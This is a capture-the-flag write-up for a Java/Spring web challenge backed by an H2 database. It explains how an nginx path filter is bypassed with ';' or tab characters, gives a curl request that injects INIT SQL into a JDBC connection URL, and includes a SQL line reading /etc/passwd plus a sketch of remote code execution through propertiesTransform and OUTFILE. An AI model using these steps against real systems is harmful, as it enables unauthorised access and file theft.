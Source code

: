 # PortfolioS

### Resources

#### 1. H2 database

([https://www.h2database.com/h2.pdf](https://www.h2database.com/h2.pdf))

{% embed url="https://www.h2database.com/html/features.html" %}

{% embed url="https://www.h2database.com/html/grammar.html" %}

{% embed url="https://www.baeldung.com/spring-boot-h2-database" %}

{% embed url="https://www.baeldung.com/java-h2-executing-sql-scripts" %}

#### 2. Exploitation

{% embed url="https://www.code-intelligence.com/blog/cve-jdbc-mysql-driver-rce-unauthorized-read-write-access" %}

{% embed url="https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/select-into.html" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/string-functions.html#function_load-file" %}

{% embed url="https://github.com/Avento/CVE-2023-21971_Analysis" %}
CVE-2023-21971 Explanation
{% endembed %}

{% embed url="https://dev.mysql.com/doc/connector-j/en/connector-j-connp-props-connection.html#cj-conn-prop_propertiesTransform" %}
"propertiesTransform" description
{% endembed %}



#### 3. Others

{% embed url="https://bksec.vn/blog/writeup-cscv-2025" %}

{% embed url="https://github.com/awslabs/aws-mysql-jdbc/security/advisories/GHSA-vj9v-mpjv-qf74" %}

{% embed url="https://stackoverflow.com/questions/3833578/linux-command-for-extracting-war-file" %}



> Relevant Google dork terms to search:

```
DriverManager.getConnection RCE
h2 database getconnection "propertiesTransform"
```

### Analysis of the configuration files

1. `nginx.conf`

```nginx
events {}

http {
    server {
        listen 80;

        location = /internal/testConnection {
            return 403;
        }

        location / {
            proxy_pass http://app:8989;

            proxy_set_header Host $host:8989;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

* We can see that the `/internal/testConnection` route is filtered, and returns a 403 response.

### 1. Extraction and analysis of source code

...

#### 1.1 Extract files from `.war`

```sh
$ sudo apt install default-jdk
$ jar xvf /path/to/portfolio.war
```

#### 1.2 Decompile selected .class files

*   There are a few files of interest:

    1\) `WEB-INF/classes/com/ctf/portfolio/controller/AuthController.class`

    2\) `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class`

    3\) ...



* We can use the **CFR Java Decompiler**
  * Install the `cfr-xxx.jar` file from the [Github ](https://github.com/leibnitz27/cfr)repository release page (filename depends on the current version):

```sh
$ java -jar cfr-xxx.jar <to-decompile>.class
```

* Alternatively, we can use directly open any `.class` file in an editor such as Visual Studio Code, which will automatically decompile it.

#### 1.3 Analysis of the source cod`e`

a. From the import statements defined in the `.class` files, we can identify that the Spring framework is used

b. From the `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class` file, we can identify that H2 database is in use:

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>



### 2. Exploring the H2 database configuration

From the `internalController.class`  file we have analyzed previously, we see the definition for the **POST** `/internal/testConnection` route:

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Notice that the `fullUrl` variable is crafted from an input that we can control. This variable is used as an  argument to the `DriverManager.getConnection()` function.&#x20;

With this, we have an interesting attack vector. However, remember that the `/internal/testConnection` route returns a 403 error? Read on to understand how we can bypass this restriction.

#### 2.1 nginx + spring boot

{% embed url="https://blog.1nf1n1ty.team/hacktricks/pentesting-web/proxy-waf-protections-bypass#spring-boot" %}

From enumeration, we can identify that the Nginx is running on version 1.20.2 (_**Server**_ field from the HTTP response headers). Fortunately for us, that particular version of Nginx has a character bypass vulnerability which results from the Nginx WAF not removing a certain few characters (during normalization), but will be removed by the Spring boot server. The characters are:

```
\x09, ;
```

Hence, if we send a request to the `/internal/testConnection\0x09` or `/internal/testConnection;` routes, it will successfully bypass the Nginx filters. This will allow us to send a request to the `/internal/testConnection` route as if the Nginx filter is not present.

#### 2.2 Exploiting the unsanitized input to the `.getConnection()` function

#### 2.2.1 SQL statements

> Refer to the links above for more information regarding H2 database, and how to execute SQL commands, and escalate to RCE from there

{% code overflow="wrap" %}
```sh
$ curl -X POST "http://<target>/internal/testConnection;" -H "Cookie: JSESSIONID=xxxx" -H "content-type: application/json" -d "username=sa&password=;DB_CLOSE_DELAY=-1;INIT=<SQL>;"
```
{% endcode %}

* `<SQL>` can be replaced with any SQL commands:

{% code overflow="wrap" %}
```sql
SELECT load_file("/etc/passwd") from information_schema
...

```
{% endcode %}

* `DB_CLOSE_DELAY = -1`&#x20;

> This option ensures the database remains open as long as the Java Virtual Machine (JVM) is running. It prevents it from closing automatically when the last connection is closed. By default, the database closes when the last connection is terminated. The default value is zero. However, it’s essential to shut down the database with a shutdown command to avoid potential memory leaks.

#### 2.2.2 `propertiesTransform`

...

We can insert the `propertiesTransform` field into the payload:

Eg.&#x20;

{% code overflow="wrap" %}
```
username=sa;password=;DB_CLOSE_DELAY=-1;propertiesTransform=com.example.MyArbitraryClass"
```
{% endcode %}

In this case, we can create the `com.example.MyArbitraryClass` class, to perform RCE. We can use the payload to craft an SQL command (`INIT` field):

```sql
SELECT ... OUTFILE /path/to/MyArbitaryClass.java
```

